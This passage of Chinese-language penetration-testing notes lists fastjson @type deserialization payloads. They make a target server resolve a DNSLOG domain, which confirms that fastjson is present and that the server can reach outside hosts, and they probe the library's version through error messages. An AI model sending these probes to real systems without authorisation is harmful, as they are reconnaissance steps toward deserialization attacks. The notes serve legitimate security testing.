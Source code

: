 ### jackson

![](attachments/Pasted%20image%2020221118102601.png)

## 0x02 DNSLOG

这里给出8条fastjson的调用链进行测试，如果存在fastjson框架则会收到 dns 请求，其中`java.net.URL` 在 1.2.24中不会解析

```bash  
{"1":{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}}  
{"2":{{"@type":"java.net.URL","val":"http://dnslog"}:"x"}}  
{"3":{"@type":"com.alibaba.fastjson.JSONObject",{"@type": "java.net.URL","val":"http://dnslog"}}""}}  
{"4":{"@type":"java.net.Inet4Address","val":"dnslog"}}  
{"5":{"@type":"java.net.Inet6Address","val":"dnslog"}}  
{"5":{"@type":"java.net.InetAddress","val":"dnslog"}}  
{"6":Set[{"@type":"java.net.URL","val":"http://dnslog"}]}  
{"7":{{"@type":"java.net.URL","val":"http://dnslog"}:0}}
```

在 dnslog 域名被禁用的情况下，有回显也可以用一些正常域名测试是否存在DNS配置或出网

```json  
{
  "a": {
    "@type": "java.net.InetAddress",
    "val": "www.baidu.com"
  }
}  
```

## 0x03 fastjson 版本探测

需要注意的是部分系统是不支持 [] 形式包裹的，根据站点特性灵活改变写法

```json
{
  "username": {
    "@type": "whatever"
  }
}
```

### 精确版本号1

有报错回显的情况下，返回精确版本号

```json  
{
  "@type": "java.lang.AutoCloseable"  
```
